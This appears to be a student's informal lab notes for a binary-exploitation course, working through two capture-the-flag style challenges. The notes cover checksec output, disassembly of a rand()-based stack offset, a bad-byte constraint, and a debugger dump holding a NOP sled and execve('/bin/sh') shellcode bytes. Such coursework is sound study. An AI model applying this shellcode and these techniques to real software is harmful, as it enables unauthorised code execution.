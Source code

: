 Find-me:

 checksec find-me
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/k-730/.cache/.pwntools-cache-3.13/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.14.1)
[*] '/home/k-730/COMP6447/wk3/find-me'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

00401352  4883ec40           sub     rsp, 0x40
=> So stack frame is most likely 0x40 = 64 bytes
Stack frame always changing!

Our stack is at:
contents is printed at $rbp-0x30

Bad chars are 0xf,0x5! We cant use syscall!

This means we have to use the opened fd
file discriptor to read the contents of the flag!!

Should the small shellcode look for the bigger shellcode? YES!

Interesting, another file descriptor for the flag is opened @0x0040158c! Perhaps we must use this!

SHellz:

└─$ checksec shellz
[*] '/home/k-730/COMP6447/wk3/shellz'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

printf("Here is a random stack address: …", (int64_t)(rand() % 500) + &buf, &buf);
So stack is located at:
stack = leaked_stack + random
somewhere!

Now rsp is 0x2000 = 8192 bytes in size

possible attack paths
OMFG i just have to loop thru 500 of the bytes to find the buffer address
Use the c rand function in python to try and get the flag.

Best way is to predict the rand:

Predict rand() (best)

These instructions fuzz the random:
0040125e  4863d0             movsxd  rdx, eax                   0x3e92da52
00401261  4869d2d34d6210     imul    rdx, rdx, 0x10624dd3       0x3e92da52 *0x10624dd3 = 0x40134e2_72189b96
00401268  48c1ea20           shr     rdx, 0x20                  0x40134e2 =  0x40134e2_00000000
0040126c  c1fa05             sar     edx, 0x5                   0x2009a7
0040126f  89c1               mov     ecx, eax                   ecx = 0x3e92da52
00401271  c1f91f             sar     ecx, 0x1f(31)              ecx = 0x0 (Could be 1 or 0)!
00401274  29ca               sub     edx, ecx                   edx - ecx (1 or 0)
00401276  69caf4010000       imul    ecx, edx, 0x1f4            ecx = edx* (500)
0040127c  29c8               sub     eax, ecx
0040127e  89c2               mov     edx, eax
00401280  4863c2             movsxd  rax, edx
00401283  488d9500e0ffff     lea     rdx, [rbp-0x2000 {buf}]
0040128a  4801d0             add     rax, rdx {buf}

Example:
0x3e92da52
0x3e92da52 * 0x10624dd3 = 0x40134e272189b96
0x40134e2

x/80gx $rsp
0x7ffd5fdaec60: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaec70: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaec80: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaec90: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaeca0: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaecb0: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaecc0: 0x2fbf4856f6314890      0x5768732f2f6e6962
0x7ffd5fdaecd0: 0x050f99583b6a5f54      0x00007ffd5fdace2c

pwndbg> x/4gx $rbp
0x7ffd5fdaecd0: 0x050f99583b6a5f54      0x00007ffd5fdace2c

WTF why does the order of the payload matter?

